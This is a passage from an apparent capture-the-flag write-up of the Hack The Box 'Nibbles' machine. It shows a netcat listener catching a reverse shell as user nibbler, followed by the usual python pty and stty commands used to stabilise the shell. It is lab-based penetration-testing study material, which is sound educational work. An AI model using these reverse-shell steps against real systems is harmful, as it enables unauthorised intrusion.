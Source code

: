 Start a netcat listener and open the file in the browser:

![Untitled](/assets/images/2021-10-27-nibbles/Untitled7.png)

Loo at the netcat listener. A shell as user nibbler spawned:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nibbles]
└─$ nc -lvnp 4444       
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.75] 40968
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 02:29:18 up 11:20,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
```

Before searching for the user flag, I stabilize the shell:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/$ export TERM=xterm
export TERM=xterm
nibbler@Nibbles:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                                                                                             
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nibbles]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

nibbler@Nibbles:/$
```
